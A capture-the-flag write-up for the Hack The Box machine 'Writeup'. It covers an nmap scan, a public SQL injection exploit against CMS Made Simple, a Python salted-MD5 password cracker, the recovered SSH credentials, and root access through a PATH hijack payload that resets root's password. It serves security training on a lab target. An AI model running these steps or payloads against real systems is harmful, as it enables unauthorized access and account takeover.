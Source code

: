 # Writeup (HACK THE BOX)

Hey guys today we will be doing Writeup from HackTheBox :) <br/>
<picturelogo>
<br/>

## Nmap Scan
```
[sarthak@sarthak ~]$ nmap -sV 10.10.10.138 -v -Pn
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-13 07:07 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 07:07
Completed Parallel DNS resolution of 1 host. at 07:07, 0.01s elapsed
Initiating Connect Scan at 07:07
Scanning 10.10.10.138 [1000 ports]
Discovered open port 80/tcp on 10.10.10.138
Discovered open port 22/tcp on 10.10.10.138
Completed Connect Scan at 07:07, 23.64s elapsed (1000 total ports)
Initiating Service scan at 07:07
Scanning 2 services on 10.10.10.138
Completed Service scan at 07:08, 6.72s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.138.
Initiating NSE at 07:08
Completed NSE at 07:08, 1.27s elapsed
Initiating NSE at 07:08
Completed NSE at 07:08, 0.00s elapsed
Nmap scan report for 10.10.10.138
Host is up (0.31s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.08 seconds

```
<br/>

Two services are running ..let's enumerate apache(port 80)

## Enumerating Web Server

<picture 009>
<br/>
According to the message we can see there's a dos protection waf is working which will an every ip which triggers 40x apache codes...<br/>

So rather than using dirb,gobuster,etc ...we will use burp to spider the domain ..
<br/>
<picture 010>
<br/>
Now we got a new directory named 'writeup' and i am using a really awesome extension named 'wappalyzer' which helped me to find that this directory has **cms made simple** installed...
<br/>
<picture 011>
<br/>

Now i found a blind time based sql injection whose exploit code is available 
 - [here](https://www.exploit-db.com/exploits/46635)

<br/>
<picture 007>
<br/>

```
python2 exp.py -u http://10.10.10.138/writeup/
```

I extracted the decrypt logic from the exploit and saw that before converting to md5 we have to concat it with salt so the final exploit code i created for finding password is
<br/>

```python
import hashlib

def crack_password():
    password="62def4866937f08cc13bab43bb14e6f7"
    output=""
    wordlist="rockyou.txt"
    salt="5a599ef579066807"
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        #print(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            print(output)
            break
    dict.close()


crack_password()
```

<br/>
The password extracted from the wordlist was :- *raykayjay9*

## Logging into ssh

So now we have credentials
 - username:- *jkr*
 - password:- *raykayjay9*
<br/> 
<picture 012>
<br/>

## Privesc 

Downloading pspy64 to snoop on processes
<br/>
<picture 013>
<br/>

Now if a user logged in by ssh we will see some commands being executed in the server which can be seen by pspy64 binary output
<br/>
<picture 014>
<br/>
The command was ...

```
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

if we break this command into chunks and try to understand what it's doing is setting up the PATH variable in which we can see  `/usr/local/sbin`  was at top which means it will be given highest priority while looking for any binary by the operating system so... 

```
run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

we can see  `run-parts`  is being executed and if we check the permissions of  `/usr/local/sbin`  we will notice that..

<br/>
<picture 015>
<br/>
our user is in the same group as of  `/usr/local/sbin`  so that means we can write stuff inside the  `sbin`  folder, So we will write a binary in /tmp folder with our malicious payload and give it permissions to execute and will copy it to the  `sbin`  folder...
<br/>
The payload will be..

```bash
#!/bin/bash
echo "root:pwned@123"|chpasswd
```

This will change the password of root to `pwned@123` so let's try this...
<br/>
<picture 016>
<br/>
Now we have copied the payload let's quickly log out and login back to ssh and test the credentials...
<br/>
<picture 017>
<br/>

And we rooted this box ...interesting machine it was,<br/>
<br/>
<meme>
<br/>  
If you guys liked this writeup of writeup lol stay tuned :)

